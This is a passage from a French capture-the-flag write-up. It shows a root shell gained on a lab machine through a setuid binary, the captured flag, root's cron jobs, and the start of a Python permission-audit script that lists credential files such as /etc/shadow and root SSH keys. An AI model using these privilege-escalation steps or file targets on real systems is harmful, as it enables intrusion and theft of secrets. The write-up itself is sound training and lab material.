 /var/tmp devrait faire l'affaire. On rectifie le cleaner une nouvelle fois et on recommence :  

```plain
overflow@troll:/$ ls /var/tmp/getroot -l
-rwsr-xr-x 1 root root 2786558 Aug 21 18:23 /var/tmp/getroot
overflow@troll:/$ /var/tmp/getroot
root@troll:/# id
uid=0(root) gid=0(root) groups=0(root),1002(overflow)
root@troll:/# cd /root
root@troll:/root# ls
proof.txt
root@troll:/root# cat proof.txt 
Good job, you did it! 

702a8c18d29c6f3ca0d99ef5712bfbdc
```

Groovy !

Sous la capôt
-------------

On trouve deux lignes dans la crontab de root :

```plain
*/5 * * * * /usr/bin/python /opt/lmao.py
*/2 * * * * /usr/bin/python /lib/log/cleaner.py
```

```plain
root@troll:/root# cat /opt/lmao.py
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()
```

Annexe
------

Voici le code de mon script qui recherche les failles au niveau des permissions. N'hésitez pas à le reprendre et l'améliorer.  

```python
import os
from stat import *
import pwd, grp

SECRET_FILES = [
  '/etc/shadow',
  '/etc/shadow-',
  '/etc/sudoers',
  '/etc/ssh/ssh_host_key',
  '/etc/ssh/ssh_host_dsa_key',
  '/etc/ssh/ssh_host_rsa_key',
  '/etc/ssh/ssh_host_ecdsa_key',
  '/boot/grub2/grub.cfg',
  '/root/.ssh/id_rsa',
  '/root/.ssh/id_dsa',
  '/root/.rhosts',
  '/root/.bash_history',
  '/root/.mysql_history'
  ]

FOLDERS_TO_WATCH = [
    '/bin',
    '/sbin',
```